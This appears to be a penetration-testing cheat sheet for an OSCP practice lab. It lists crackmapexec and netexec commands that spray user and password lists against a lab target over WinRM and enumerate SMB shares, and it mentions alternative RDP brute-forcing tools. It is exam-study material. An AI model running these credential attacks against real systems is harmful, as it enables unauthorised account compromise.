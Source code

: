 ```yaml
---
IP_KALI: 192.168.45.155
IP_TARGET: 192.168.195.156
USER: users.txt
DOMAIN: oscp.exam
PASSWD: passwords.txt
---
```

- crackmapexec winrm <span id="IP_TARGET"/>192.168.195.156<span type="end"/> -u <span id="USER"/>users.txt<span type="end"/> -p '<span id="PASSWD"/>passwords.txt<span type="end"/>' -d <span id="DOMAIN"/>oscp.exam<span type="end"/> --continue-on-success
- ~={red}CME is famous for not being a reliable tool for RDP brute forcing. You may try other tools such as crowbar or impacket-rdp_check or netexec.=~
- netexec winrm <span id="IP_TARGET"/>192.168.195.156<span type="end"/> -u <span id="USER"/>users.txt<span type="end"/> -p <span id="PASSWD"/>passwords.txt<span type="end"/> --continue-on-success --local-auth
- Enumerate smb shares:
	- netexec smb <span id="IP_TARGET"/>192.168.195.156<span type="end"/> -u <span id="USER"/>users.txt<span type="end"/> -p <span id="PASSWD"/>passwords.txt<span type="end"/> --shares